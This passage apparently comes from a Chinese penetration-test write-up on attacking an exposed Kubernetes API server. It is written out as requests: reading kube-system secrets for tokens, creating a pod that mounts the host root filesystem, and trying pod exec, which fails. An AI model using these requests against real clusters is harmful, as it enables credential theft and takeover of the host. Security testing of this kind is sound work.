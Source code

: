 获取token  
```
/api/v1/namespaces/kube-system/secrets/
```  
  
![75eb8d626288606c711d746a3eaeb866.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfPfgxkWpS6kJvS3gekr3CV7pU3lOLm97Q4XXbytnb04u0WWt0a5eC6A/640?wx_fmt=png&from=appmsg "")  
  
创建特权容器  
```
POST /api/v1/namespaces/default/pods HTTP/2Host: 127.0.0.1:61575User-Agent: Mozilla/5.0 (Macintosh; IntelMacOSX10.15; rv:99.0) Gecko/20100101Firefox/99.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneSec-Fetch-User: ?1Te: trailersContent-Length: 1176{    "apiVersion": "v1",    "kind": "Pod",    "metadata": {        "annotations": {            "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-4444\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-4444\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"        },        "name": "test-4444",        "namespace": "default"    },    "spec": {        "containers": [            {                "image": "nginx:1.14.2",                "name": "test-4444",                "volumeMounts": [                    {                        "mountPath": "/host",                        "name": "host"                    }                ]            }        ],        "volumes": [            {                "hostPath": {                    "path": "/",                    "type": "Directory"                },                "name": "host"            }        ]    }}
```  
  
![116aa2c7a386af0777d54994a2e22169.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfnuCvz26ibXVsIolGFNfQl9dyPSvCllR2jAsRWwhWkJQu8tGQSt5mjEQ/640?wx_fmt=png&from=appmsg "")  
  
随后执行命令的时候返回400  
```
https://127.0.0.1:61575/api/v1/namespaces/default/pods/test-4444/exec?stdout=1&stderr=1&tty=true&command=whoami
```  
  
![b700549ae7f8c29a9d8dcdb9e44520d9.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfNwLquFiaov32cwBxtDO1XRKfrQpZ8YAT9Y6jiajPvBV7y9DYNJFrficOw/640?wx_fmt=png&from=appmsg "")  
  
![49b51fa19abe6d6ebc396a29797c18af.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfLOLv8IPvyHby4xTdIxzV5DbwiayKvhXUWBqWVicfTzqz1JOZZoCXibvoA/640?wx_fmt=png&from=appmsg "")  
  
传统艺能，搜到了这种解决方案，可惜不行：（  
  
安装wscat  
```
npm install -g wscat
```  
  
![c2e6b98389be66aced0da9cfc12e8199.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfVHjm1er0Byu10KEjRVicfWbJM3Gibg8VAQbCjwrPPmicb9X5wn7aStN1Q/640?wx_fmt=png&from=appmsg "")  
  
![5ff5d24a6fd2d230fb29dcf6e4c32213.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKf47ibosbhQtwfevYp4C1J3HkIDcXWhdx2CXUfUib4n6YvQcVC5oDJfzQA/640?wx_fmt=png&from=appmsg "")  
  
不过这里还是没解决这个问题  
  
并且还遇到一个问题  
  